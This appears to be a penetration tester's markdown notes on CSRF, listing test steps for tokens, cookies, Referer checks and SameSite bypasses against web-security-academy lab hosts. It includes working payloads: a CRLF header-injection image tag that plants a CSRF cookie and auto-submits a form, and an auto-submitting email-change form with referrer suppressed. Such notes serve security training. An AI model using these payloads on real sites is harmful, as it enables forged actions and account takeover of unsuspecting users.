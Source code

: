For a CSRF attack to be possible, three key conditions must be in place:
```
1. A relevant action.
2. Cookie-based session handling.
3. No unpredictable request parameters.
```
### Testing CSRF Token.
```
1. Remove CSRF parameter/token and see if application accepts it.
2. Change request method POST to GET.
3. Exchange csrf token with another user.
```
### Testing CSRF token and CSRF Cookies.
____
#### Check if CSRF token is tied to the CSRF cookie.
```
1. Submit an invalid CSRF token.
2. Submit a valid CSRF token from another user.
3. Submit a valid CSRF token and CSRF cookie from another user.
4. In uplicated token cookie try to assign same random value in token+cookie.
```
### Exploitation
To exploit this CSRF token+cookie mechanism, we need to perform 2 things.
```
1. Inject a CSRF cookie in user's session. (HTTP Header injection)
2. Send a CSRF attack to victim.
```
#### Exploit
```html
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```
### Testing Referer Header for CSRF attack
```
1. Remove Refere Header and see if it works.
2. Check which portion of referrer header is the application validating.
Ex >> Referer: https://hacked.com/?academy.net
```
#### Exploit for case 1
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### SameSite Lax Bypass
```
1. Change method POST to GET.
2. Via cookie refresh
```
